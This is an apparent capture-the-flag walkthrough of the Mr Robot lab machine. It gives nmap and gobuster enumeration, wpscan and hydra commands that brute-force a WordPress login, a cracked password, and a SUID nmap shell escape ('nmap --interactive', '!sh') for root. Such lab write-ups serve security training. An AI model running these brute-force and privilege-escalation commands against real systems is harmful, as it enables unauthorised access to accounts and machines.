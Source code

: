 # 0. Setup

# 1. Recon & Enumration
## 1.1 nmap

```bash
sudo nmap -A -T4 $TGT -p- -oN nmapOutput.nmap
```

Options explained: -A runs version detection& default scripts, -T4 is the timing template to use (0: slowest, 5: quickest), $TGT is the target IP variable I have set, -p- scan all ports, -oN is used to output the nmap scan results to a file

**nmap results:**

IMAGE NMAP

Points of interest from nmap results:
- Port 22 SSH
- Port 80 open hosting webpage
- Port 443

## 1.2 View Website

We can navigate to the website in browser using the target IP `http://<TGTIP>`
IMAGE WEBSITE BLANK

From here I generally browse the website as a user would do (alongside viewing page sources) to get an idea of the websites functionality and purpose before using enumeration tools.

**Robots.txt**
>User-agent: *
>fsocity.dic
>key-1-of-3.txt

Gobuster
```bash
gobuster dir -u http://$TGT -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  -x php -s 200 -b 301,404,401 -o goBusterSeclists

gobuster dir -u http://$TGT -w fso  -x php -s 200 -b 301,404,401 -o goBusterSeclists

```

# 2. Exploitation
**Find valid username**
>mrrobot
>robot
>admin
>administrator
>Elliot Alderson
>Elliot

Elliot user valid

```
wpscan --url http://10.10.28.132/wp-login.php --usernames elliot --passwords /usr/share/wordlists/rockyou.txt

wpscan --url http://10.10.28.132/wp-login.php --usernames elliot --passwords fsocity.dic 
```

Password cracking
```
hydra -l Elliot -P fsocity.dic $TGT http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The password you entered for the username"
```

Rate limited but password would evenutally  found using the above
Password: ER28-0652


# 3. Privilege Escalation

```bash
find / -perm -u=s -type f 2>/dev/null
```

> /usr/local/bin/nmap

GTFO bins shell
```bash 
nmap --interactive
nmap> !sh
```

```bash
find / -type f -iname "key*" 2>/dev/null
```
